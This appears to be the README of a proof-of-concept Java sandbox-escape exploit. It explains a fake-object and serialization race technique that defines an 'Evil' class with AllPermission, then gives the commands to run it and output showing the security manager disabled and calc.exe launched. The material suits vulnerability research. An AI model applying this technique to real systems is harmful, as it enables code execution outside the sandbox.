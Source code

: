     -----------------------------------------------------------

The address of this fake object will be 16 bytes following the address of the
array on 64 bit with compressed pointers. However, when we store this address
somewhere we need to convert it to a compressed pointer. This is done by using
an offset of 2 from the address of the array (which is already a compressed
pointer) instead of 16 because compressed pointers effectively multiply the
address by 8. Very strangely on Linux and windows compressed oops don't appear
to be compressed and an offset of 16 instead of 2 needs to be used. I only see
properly compressed oops under OSX [1].

Finally we use the IntHolder object to store the address of the fake object and
use the race condition to re-inerpret it as a ShadowObject. The ShadowObject has
a single object field so the address originally stored as an integer will be
interpreted as an object reference. The ObjectOutputStream will then try to
serialize it and FakeMe implements the writeObject method so it will be able to
use the ClassLoader reference to define an Evil class with AllPermission which
will disable the JVM sandbox. The source code for the Evil class is in Evil.java


Testing
-------

    java -Xint -XX:+UseSerialGC -Xms256m -Xmx256m -Xnoclassgc -Djava.security.manager Ser2
or
    appletviewer -J-Xint -J-XX:+UseSerialGC -J-Xms256m -J-Xmx256m -J-Xnoclassgc test.html

command line appletviewer needs -Xint and other parameters because it ignores
the jvm args applet parameter. firefox and ie both correctly handles the
-Xint and other parameters.

[Applet Deployment Parameters](http://docs.oracle.com/javase/6/docs/technotes/guides/jweb/applet/applet_deployment.html)

If the exploit works you will get output like this:

    using arch: OOPS64
    readclassaddress:0
    found magic with: 528/528
    got class address: 564408075
    readaddress:0/0
    found magic with: 51/64
    found addresses: [574680158, 584221623]
    readObject:0
    FAKEME!
    disabled security manager
    /Users/ben
    java.io.IOException: Cannot run program "calc.exe": error=2, No such file or directory
            at java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
            at Ser2.init(Ser2.java:546)
            at Ser2.main(Ser2.java:531)
    Caused by: java.io.IOException: error=2, No such file or directory
            at java.lang.UNIXProcess.forkAndExec(Native Method)
            at java.lang.UNIXProcess.<init>(UNIXProcess.java:135)
            at java.lang.ProcessImpl.start(ProcessImpl.java:130)
            at java.lang.ProcessBuilder.start(ProcessBuilder.java:1021)
            ... 2 more
